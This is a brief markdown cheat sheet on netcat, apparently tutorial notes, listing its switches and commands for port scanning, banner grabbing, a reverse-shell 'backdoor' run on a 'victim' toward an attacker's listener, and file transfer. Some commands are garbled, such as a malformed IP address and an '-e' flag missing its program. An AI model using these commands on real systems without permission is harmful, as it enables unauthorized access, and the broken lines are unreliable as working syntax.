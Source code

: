 
### **Objectives:**
- Network Scan
- Banner Grabbing
- Backdoor
- Execute Binary Files
- Share Files Through `NETcat`


### **Switches:**

`-l` : LISTEN
`-v` : VERBOSIN
`-p` : PORT
`-w` : TIMEOUT
`-n` : DONT RESOLVE
`-e` : EXECUTE COMMANDS
`-z` : PORT SCAN


### **Scan the Network**

```
nc -zvw 1 192.168.105 1-100
```

### **Scan the Network with Timeout**

```
nc -zvnw 1 18.192.172.30 1-100
```


### **Banner Grabbing**

```
echo "" | nc -vn 192.168.0.105 22
```

```
echo "" | nc -vn 192.168.0.105 80
```


### **Create a Backdoor**

*Command to run on Victims System :*
```
nc -v 192.168.0.107 4040 -e 
```


*Command to run on Attackers System:*
```
nc -lvp 4040
```


### **Transfer Files Between Two System**

*Command to run on Attackers System:*
```
nc -vn 192.168.0.107 7777 < secret.txt
```

*Command to run on Victims System :*
```
nc -lvp 7777 > secret.txt
```






**Resource :**
[NetCat Tutorial in Depth | What is NetCat? How NetCat Works? Share Files Through NetCat | BackDoor 🐈](https://www.youtube.com/watch?v=Wzc9cgEar7g)
